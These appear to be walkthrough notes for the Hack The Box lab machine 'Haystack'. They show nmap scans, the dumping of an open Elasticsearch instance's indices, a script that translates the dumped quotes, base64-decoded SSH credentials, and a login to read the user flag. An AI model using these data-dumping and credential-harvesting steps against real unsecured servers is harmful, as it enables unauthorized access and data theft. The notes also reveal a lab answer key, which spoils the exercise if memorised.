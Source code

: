 # Haystack

Info
* OS: Linux
* Difficulty: easy
* IP: `10.10.10.115`

Tags
* elasticsearch
* kibana

<!--

Required tools
* nmap

Other commands/tools
```
TODO
```

-->

## Walkthrough

* [IppSec](https://www.youtube.com/watch?v=oGO9MEIz_tI) (video)

### Enumeration

Nmap
```bash
nmap -sC -sV -oA nmap.out 10.10.10.115

# output
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 2a:8d:e2:92:8b:14:b6:3f:e4:2f:3a:47:43:23:8b:2b (RSA)
|   256 e7:5a:3a:97:8e:8e:72:87:69:a3:0d:d1:00:bc:1f:09 (ECDSA)
|_  256 01:d2:59:b2:66:0a:97:49:20:5f:1c:84:eb:81:ed:95 (ED25519)
80/tcp   open  http    nginx 1.12.2
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: nginx/1.12.2
9200/tcp open  http    nginx 1.12.2
| http-methods: 
|_  Potentially risky methods: DELETE
|_http-server-header: nginx/1.12.2
|_http-title: Site doesn't have a title (application/json; charset=UTF-8).
```

Nmap script
```bash
git clone --depth 1 https://github.com/theMiddleBlue/nmap-elasticsearch-nse.git /opt/nmap-elasticsearch-nse

ln -s /opt/nmap-elasticsearch-nse/elasticsearch.nse /usr/share/nmap/scripts/

# enumeration
nmap -p9200 --script=elasticsearch 10.10.10.115

# output
PORT     STATE SERVICE
9200/tcp open  wap-wsp
| elasticsearch: by theMiddle (Twitter: @AndreaTheMiddle)
| 
| found RESTful API
| version: 6.4.2
| cluster name: elasticsearch
| 
| Indices found in /_cat/indices:
| health index   docs.count
| green  .kibana          1
| yellow quotes         253
| yellow bank          1000
| 
| Plugins found in /_cat/plugins:
| 
| Nodes found in /_cat/nodes:
| 127.0.0.1 8 69 3 0.00 0.04 0.05 mdi * iQEYHgS
| 
| Nodes process:
|  - Name: iQEYHgS
|  - Transport Address: 127.0.0.1:9300
|  - Host: 127.0.0.1
|  - IP: 127.0.0.1
|  - Version: 6.4.2
|_
```

Explore Elasticsearch data

* [HackTricks](https://book.hacktricks.xyz/pentesting/9200-pentesting-elasticsearch)
* [Elasticsearch REST APIs](https://www.elastic.co/guide/en/elasticsearch/reference/current/rest-apis.html)

```bash
# version 6.4.2
http 10.10.10.115:9200

# not json
http 10.10.10.115:9200/_cat
# e.g. list indexes
http 10.10.10.115:9200/_cat/indices?v
http 10.10.10.115:9200/_cat/indices?help

# dump data limit 10
http 10.10.10.115:9200/bank/_search?pretty=true
# search on an index
http 10.10.10.115:9200/_search?pretty=true\&q=Rockwell

# dump data
http -b 10.10.10.115:9200/bank/_search?size=1000 | jq '.hits.hits[]._source.email' | tee bank-emails.txt
http -b 10.10.10.115:9200/quotes/_search?size=253 | jq '.hits.hits[]._source.quote' | tee quotes.txt
wc -l bank-emails.txt
```

Translate data

* [googletrans](https://pypi.org/project/googletrans)

```bash
# install dependencies
pip install requests googletrans==3.1.0a0

# run script
python exploit.py

# extract data
cat quotes-translated.txt | jq '.[]' | grep -i key
```

Script `exploit.py`
```python
#!/bin/python3
import requests, json
from googletrans import Translator

r = requests.get('http://10.10.10.115:9200/quotes/_search?size=253')
quotes = json.loads(r.text)
translator = Translator()

results = []
for quote in quotes['hits']['hits']:
    q = quote['_source']['quote']
    qt = (translator.translate(q, src='es', dest='en')).text
    print(qt)
    print()
    results.append(qt)

with open('quotes-translated.txt', 'w') as filehandle:
    json.dump(results, filehandle)
```

Analyze data
```bash
# "This key cannot be lost, I keep it here: ???"
"Esta clave no se puede perder, la guardo aca: cGFzczogc3BhbmlzaC5pcy5rZXk="
# "pass: spanish.is.key"
echo "cGFzczogc3BhbmlzaC5pcy5rZXk=" | base64 -d

# "I have to save the key for the machine: ???"
"Tengo que guardar la clave para la maquina: dXNlcjogc2VjdXJpdHkg"
# "user: security"
echo "dXNlcjogc2VjdXJpdHkg" | base64 -d

# spanish.is.key
ssh -o StrictHostKeyChecking=no security@10.10.10.115

# flag
cat /home/security/user.txt
```
